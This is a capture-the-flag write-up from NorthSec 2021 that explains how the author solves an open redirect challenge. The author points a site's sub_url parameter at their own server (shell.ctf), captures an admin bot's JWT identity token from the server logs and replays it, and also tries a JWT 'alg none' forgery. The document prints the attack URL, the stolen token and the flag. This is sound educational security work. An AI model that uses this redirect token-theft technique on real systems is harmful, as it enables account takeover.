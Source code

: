 ```yaml
---
layout: post
title: NorthSec 2021 Writeup - Wizard Hackademy - Open Redirect
date: 2021-05-24
type: post
tags:
- Writeup
- Hacking
- NorthSec
- CTF
permalink: /2021/05/NorthSec2021WriteupOpenRedirect/
---
```


In this challenge on the [NorthSec 2021 CTF](https://nsec.io/competition/) beginner's track, we have a web site on 'http://chal5.wizard-hackademy.ctf/' with two links and a message that tells us we are logged in as an apprentice. 

![Main Page](/assets/images/2021/05/NorthSec/WizardHackademy/OpenRedirect/MainPage.png "Main Page").


When I clicked on the first link, I was sent to a page on a sub domain 'http://sub.chal5.wizard-hackademy.ctf/'. 

![Sub Domain Page](/assets/images/2021/05/NorthSec/WizardHackademy/OpenRedirect/SubPage.png "Sub Domain Page").

The page contains a link back to the main page and inform us that we are still logged in as an apprentice. 

I then tried the link to speak to a Grand Master Wizard. This page allow us to provide a URL and the wizard will load it.

![Wizard Page](/assets/images/2021/05/NorthSec/WizardHackademy/OpenRedirect/WizardPage.png "Wizard Page").

The CTF provided us with a box we could use inside the network. I tried sending the wizard to a site on that page so I could see what would appear in the logs. 

![Visit Shell Page](/assets/images/2021/05/NorthSec/WizardHackademy/OpenRedirect/VisitShellPage.png "Visit Shell Page").

The wizard went to the page, but nothing interesting was leaked in the logs.

## Exploiting The Redirection

I looked back at the requests in Burp and I saw that when you're on the main page and click on the link to the sub site, it first loads
```
http://chal5.wizard-hackademy.ctf/?sub_url=http://sub.chal5.wizard-hackademy.ctf/
```

This then add a token to the sub_url before redirecting you there. So the sub site URL becomes: 

```
http://sub.chal5.wizard-hackademy.ctf/?identity=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC9zdWIuY2hhbDUud2l6YXJkLWhhY2thZGVteS5jdGZcLyIsImlhdCI6MTYyMTY1Mjk2MiwibmJmIjoxNjIxNjUyOTYyLCJleHAiOjE2MjE2NTMyNjIsInVzZXIiOiJhcHByZW50aWNlIiwicm9sZSI6ImFwcHJlbnRpY2UifQ.bDEamErj1LWl7kR2DrE4D3UG49zPa8OQt8YYfeJiZrY
```

This looks like a JWT token. I base64 decoded it and this I what I got:
```json
{
  "typ": "JWT",
  "alg": "HS256"
}
.
{
  "iss": "http:\\/\\/sub.chal5.wizard-hackademy.ctf\\/",
  "iat": 1621652962,
  "nbf": 1621652962,
  "exp": 1621653262,
  "user": "apprentice",
  "role": "apprentice"
}
.
Ã.©.®=KZ^äG`ë..÷Pn=Ìö¼9.|a.Þ&&kd
```

I tried changing the algorithm to None and resubmit the token without the signature, but that didn't work. 

Then I decided to use this sub_url feature in the wizard page. If the wizard was to follow a link to the main page with a sub_url that pointed to our server, the token might be appended to our server's URL and it would show in the logs. 

I went back to the wizard page and entered this URL 'http://chal5.wizard-hackademy.ctf/?sub_url=http://shell.ctf/'. 

![Send the Wizard to Our Site](/assets/images/2021/05/NorthSec/WizardHackademy/OpenRedirect/SendWizardToOurSite.png "Send the Wizard to Our Site").

I looked at the Apache logs on our server, and I saw that the Wizard had hit the page and their token was in the logs. 

```
9000:470:b2b5:cafe:216:3eff:fe33:a18e - - [22/May/2021:03:12:35 +0000] "GET //?identity=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC9zdWIuY2hhbDUud2l6YXJkLWhhY2thZGVteS5jdGZcLyIsImlhdCI6MTYyMTY1MzE1NCwibmJmIjoxNjIxNjUzMTU0LCJleHAiOjE2MjE2NTM0NTQsInVzZXIiOiJVbmZvcnR1bmF0ZSB3aXphcmQiLCJyb2xlIjoiR3JhbmQgTWFzdGVyIFdpemFyZCJ9.fnBNbxNh3n5eFAZNg3YGd7dSx7-avhPH5Ovm2H_u7LQ HTTP/1.1" 200 11173 "-" "-"
```

I then visited the site on the sub domain using that token. And I was then connected as the Wizard. 

```
http://sub.chal5.wizard-hackademy.ctf/?identity=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC9zdWIuY2hhbDUud2l6YXJkLWhhY2thZGVteS5jdGZcLyIsImlhdCI6MTYyMTY1MzE1NCwibmJmIjoxNjIxNjUzMTU0LCJleHAiOjE2MjE2NTM0NTQsInVzZXIiOiJVbmZvcnR1bmF0ZSB3aXphcmQiLCJyb2xlIjoiR3JhbmQgTWFzdGVyIFdpemFyZCJ9.fnBNbxNh3n5eFAZNg3YGd7dSx7-avhPH5Ovm2H_u7LQ
```


![I Am the Wizard](/assets/images/2021/05/NorthSec/WizardHackademy/OpenRedirect/ImAWizard.png "I Am the Wizard").

From there, I clicked on the link to go back to the main site, and the flag was displayed.

Flag: FLAG-4c312b96d8cb77d3ef0e0cb19b10dd6f

